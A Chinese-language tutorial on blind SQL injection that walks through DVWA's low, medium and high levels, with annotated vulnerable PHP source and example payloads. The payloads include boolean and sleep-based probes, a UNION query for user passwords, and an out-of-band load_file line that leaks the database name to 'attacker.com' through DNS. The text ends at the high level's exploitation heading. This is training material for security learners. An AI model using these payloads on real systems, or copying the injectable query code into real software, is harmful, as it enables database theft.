









# SQL Injection Blind

## 一、SQL Injection Blind 简介

**SQL 盲注**也是SQL注入的一种特殊形式，是指在无法直接从页面看到查询结果或数据库错误信息时，依然能够利用注入点获取数据的技术。攻击者通过观察应用程序对恶意请求的**反应差异**（如页面内容变化、响应时间长短、外部网络请求等）来逐位推断是否存在注入点以及猜解数据库内容。

### 为什么需要盲注？
当网站关闭了错误显示，并且不直接输出查询结果（例如只返回“成功”或“失败”），常规的联合查询（UNION）或报错注入就会失效，此时只能依靠盲注。

---

### 盲注的常见分类

#### 1. 基于布尔的盲注（Boolean-Based）
利用页面在条件为真和为假时的不同表现（比如返回不同的内容、HTTP 状态码等），来判断注入条件是否成立。

**最简单例子：**

假设一个页面通过 URL 参数 `?id=1` 查询用户，正常访问返回“User exists”。我们可以尝试：

```sql
1 and 1=1   -- 页面正常（真）
1 and 1=2   -- 页面异常或空白（假）
```

如果以上两个请求的返回结果不同，就说明存在布尔盲注，我们可以用类似的方法逐字符猜解数据（例如猜用户名第一个字母是否为 'a'）。

#### 2. 基于时间的盲注（Time-Based）
当页面在真假条件下都返回相同内容时，可以使用数据库的延时函数，通过响应时间差异判断条件真假。

**最简单例子：**

```sql
1 and sleep(5)   -- 如果页面延迟了 5 秒，说明注入成功且条件为真
```

攻击者可以构造条件，例如猜解数据库版本，如果正确就延时，否则不延时。

#### 3. 基于带外的盲注（Out-of-Band）
利用数据库发起外部请求（如 DNS 解析、HTTP 请求）的能力，将数据直接发送到攻击者控制的服务器。这种方式通常用于无法通过页面或时间获取反馈的场景。

**简单例子（以 MySQL 为例）：**

```sql
1 and load_file(concat('\\\\',(select database()),'.attacker.com\\a'))
```

如果数据库允许加载远程文件，它会尝试解析包含数据库名的域名，攻击者就能在自己的 DNS 日志中看到请求，从而获得数据。

---

### 盲注的核心思想
无论哪种方式，本质都是**逐字符猜解**：将需要获取的数据（如用户名、密码）拆分成一个个字符，通过多次判断（每次判断一个字符的 ASCII 值范围）最终拼凑出完整信息。

---

## 二、DVWA中的例子



### SQL Injection Blind low 级别

**源码**：
```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            //①处，与上一篇文章SQL漏洞产生的原理相同，就是字符串未经过滤直接拼接到SQL语句中，导致注入
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            try {
                $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors
            //②处，虽然对查询结果做了隐藏，但是仍然可以通过查询语句的错误信息来判断用户是否存在
            } catch (Exception $e) {
                print "There was an error.";
                exit;
            }

            $exists = false;
            if ($result !== false) {
                try {
                    $exists = (mysqli_num_rows( $result ) > 0);
                } catch(Exception $e) {
                    $exists = false;
                }
            }
            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
            break;
        case SQLITE:
            global $sqlite_db_connection;
            //③处，同①处，直接拼接字符串到SQL语句中，导致注入
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            try {
                $results = $sqlite_db_connection->query($query);
                $row = $results->fetchArray();
                $exists = $row !== false;
            } catch(Exception $e) {
                $exists = false;
            }

            break;
    }
    //④处，对于用户存不存在，页面都会回显相应的内容，但是由于存在注入点，攻击者可以利用布尔盲注来判断用户是否存在
    if ($exists) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    } else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

}

?>
```
**原理说明**：
在MySQL和SQLite分支的数据库查询中，代码直接将**用户输入的 $id 拼接到SQL语句**中，没有进行任何过滤或参数化处理，因此存在SQL注入漏洞。**但与Low级别的SQL注入不同，此处页面不会返回数据库中的数据，而是仅根据查询结果返回 “存在” 或 “不存在” 两种状态（HTTP状态码也相应变化：200或404）**。攻击者无法直接看到查询结果，但可以利用页面响应的差异（布尔状态）逐位猜解信息，这就是基于布尔的盲注。

**漏洞利用思路**：
攻击者可以构造条件判断的SQL语句，通过观察页面返回“exists”还是“MISSING”来判断条件真假，进而逐个字符地提取数据。
如：构造payload：
```
id=1' and '1'='1  -- 页面应返回 exists
id=1' and '1'='2  -- 页面应返回 MISSING
```
如果两个请求的响应不同，说明可以利用布尔盲注。

**payload结果展示**：



### SQL Injection Blind Medium 级别

**源码**：
```php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    //①处，获取输入id
    $id = $_POST[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
        //②处，对于输入的id进行敏感字符转义，同上一篇SQL Injection medium 级别的代码类似，只是简单的转义部分字符，还是可能存在其他的绕过，如数字型注入
            $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

            // Check database
            //③处，同上一篇SQL Injection medium 级别的代码，只是将id拼接到SQL语句中，容易产生数字型注入
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            try {
                $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors
            } catch (Exception $e) {
                print "There was an error.";
                exit;
            }

            $exists = false;
            if ($result !== false) {
                try {
                    $exists = (mysqli_num_rows( $result ) > 0); // The '@' character suppresses errors
                } catch(Exception $e) {
                    $exists = false;
                }
            }
            
            break;
        case SQLITE:
            global $sqlite_db_connection;
            //④处，相较于MYSQL，SQLite直接拼接，甚至没有对id的部分敏感字符的转义，更容易发生sql注入
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            try {
                $results = $sqlite_db_connection->query($query);
                $row = $results->fetchArray();
                $exists = $row !== false;
            } catch(Exception $e) {
                $exists = false;
            }
            break;
    }
    //⑤处，同所有的盲注，不输出查询结果，而是通过返回的状态码和秒速来判断用户是否存在，给攻击者提供信息
    if ($exists) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    } else {
        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
}

?>
```
**原理说明**：
②处，MySQL分支：虽然使用了 mysqli_real_escape_string() 对输入进行了**转义**，③处后续拼接的SQL语句中 $id 没有被引号包围（user_id = $id）。转义函数仅对字符串中的特殊字符（如单引号）添加反斜杠，而数字型注入无需闭合引号，因此攻击者仍可直接插入 UNION、AND 等SQL关键字。例如输入 1 UNION SELECT ...，转义后仍是 1 UNION SELECT ...，拼接后形成恶意查询。

④处，SQLite分支：完全没有过滤，直接拼接用户输入，漏洞更明显。

页面输出仅根据查询结果返回“exists”或“MISSING”，不返回任何数据，因此属于布尔盲注场景。

攻击者可以通过构造条件判断，利用页面响应差异逐位猜解数据。

如：构造payload：
```
1
```
或者
```
1 UNION SELECT user, password FROM users
```
经过转义之后，对输入没有影响
最后的查询语句变为
```
②处：
$query  = "SELECT first_name, last_name FROM users WHERE user_id = 1;";
③处：
$query  = "SELECT first_name, last_name FROM users WHERE user_id = 1;";
```

**payload结果展示**：






### SQL Injection Blind High级别

### SQL Injection Blind High 级别

**源码**：
```php
<?php
if( isset( $_COOKIE[ 'id' ] ) ) {                     //① 从 Cookie 中获取输入
    // Get input
    $id = $_COOKIE[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // 直接拼接 Cookie 中的输入，无过滤
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";  //② MySQL 拼接（有引号）
            try {
                $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); //③ 执行查询，错误被抑制
            } catch (Exception $e) {
                $result = false;
            }

            $exists = false;
            if ($result !== false) {
                try {
                    $exists = (mysqli_num_rows( $result ) > 0); //④ 判断是否有结果
                } catch(Exception $e) {
                    $exists = false;
                }
            }
            break;
        case SQLITE:
            global $sqlite_db_connection;

            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";  //⑤ SQLite 同样直接拼接
            try {
                $results = $sqlite_db_connection->query($query);
                $row = $results->fetchArray();
                $exists = $row !== false;                      //⑥ 判断是否有结果
            } catch(Exception $e) {
                $exists = false;
            }
            break;
    }

    if ($exists) {
        // 存在时输出
        echo '<pre>User ID exists in the database.</pre>';    //⑦ 输出存在信息
    }
    else {
        // 不存在时可能随机延迟
        if( rand( 0, 5 ) == 3 ) {
            sleep( rand( 2, 4 ) );                            //⑧ 随机延迟干扰时间盲注
        }

        // 返回 404 状态码
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // 输出不存在信息
        echo '<pre>User ID is MISSING from the database.</pre>'; //⑨ 输出缺失信息
    }
}
?>
```

**原理说明**：
- **输入来源**：代码从 Cookie 中获取 `id` 参数（①），这意味着攻击者需要能够设置 Cookie 才能进行注入，例如通过 JavaScript 或直接修改浏览器 Cookie。
- **SQL 拼接**：MySQL（②）和 SQLite（⑤）分支均直接将 `$id` 拼接到 SQL 语句中，且**使用单引号包裹**，但**没有任何过滤或转义**。因此存在 SQL 注入漏洞，攻击者需要闭合前面的单引号。
- **查询限制**：两个分支都添加了 `LIMIT 1`，限制最多返回一行结果，但这对布尔盲注没有影响，因为只需要知道“是否有结果”即可。
- **输出反馈**：页面不返回任何实际数据，仅根据查询结果输出固定的存在信息（⑦）或缺失信息（⑨），并且缺失时还会返回 HTTP 404 状态码。这种明确的二元反馈正是**布尔盲注**的理想条件。
- **随机延迟**：在缺失分支（else）中，有约 1/6 的概率会随机休眠 2-4 秒（⑧），这是为了**干扰基于时间的盲注**，但对布尔盲注无效，因为布尔盲注依赖的是页面内容和状态码，而不是响应时间。

**漏洞利用思路**：
